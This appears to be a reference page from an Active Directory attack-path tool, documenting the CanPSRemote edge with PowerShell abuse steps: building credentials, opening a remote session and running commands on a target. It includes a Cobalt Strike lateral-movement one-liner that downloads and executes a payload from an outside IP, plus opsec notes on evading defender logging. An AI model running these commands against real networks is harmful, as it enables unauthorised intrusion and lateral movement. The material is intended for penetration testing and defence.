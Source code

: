 ---
title: CanPSRemote
description: "PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


<Info>
**Note**

This edge does not guarantee privileged execution.
</Info>

## Abuse Info

Abuse of this privilege will require you to have interactive access with a system on the network.

A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the target computer if you are not running as that user. To do this in conjunction with New-PSSession, first create a PSCredential object (these examples comes from the PowerView help documentation):

```bash
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

Then use the New-PSSession command with the credential we just created:

```bash
$session = New-PSSession -ComputerName &lt;target computer name&gt; -Credential $Cred
```
This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just created

```bash
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
```

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

```bash
Disconnect-PSSession -Session $session
Remove-PSSession -Session $session
```
An example of running through this Cobalt Strike for lateral movement is as follows:

```bash
powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
-ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
Disconnect-PSSession -Session $session; Remove-PSSession -Session $session
```
## Opsec Considerations

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security mechanisms that make it much easier for defenders to see what’s going on with PowerShell in their network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

## References

* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7)
